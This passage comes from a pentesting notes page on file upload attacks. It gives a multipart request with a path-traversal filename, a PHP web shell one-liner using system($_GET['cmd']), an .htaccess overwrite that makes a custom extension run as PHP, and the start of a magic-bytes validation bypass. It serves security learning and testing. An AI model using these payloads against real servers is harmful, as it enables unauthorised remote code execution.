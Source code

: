   

## [Change Upload Location by Filename](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#change-upload-location-by-filename)

We might be able to upload our file to **unintended location** by path traversing with filename e.g. **`../example.php`** or **`..%2Fexample.php`**.

```html
------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php" <!-- Change this. -->
Content-Type: application/x-php

<?php echo system($_GET['cmd']); ?>

------abcdefghijk
```

  

## [Overwrite Server Configuration](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#overwrite-server-configuration)

We might be able to overwrite the web server configuration file such as **".htaccess"**, **".htpasswd"** by specifying the filename to the name of the config file and write desired contents of that.

```html
------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename=".htaccess" <!-- Specify the name of config file -->
Content-Type: text/plain

AddType application/x-httpd-php .abc

------abcdefghijk
```

If you have the ability to upload files, maybe try this:

```
echo "AddType application/x-httpd-php .dork" > .htaccess
```

## [Magic Bytes](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#magic-bytes)

Reference: [Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)

If the website checks the magic byte of the uploaded file for allowing only image files to be uploaded, we might be able to bypass this validation by adding magic bytes before the actual payload.

The **`exif_imagetype()`** PHP function is likely to be used for such validation.  
In addition, we may need to change other values such as **"Content-Type"** depending on the situation.
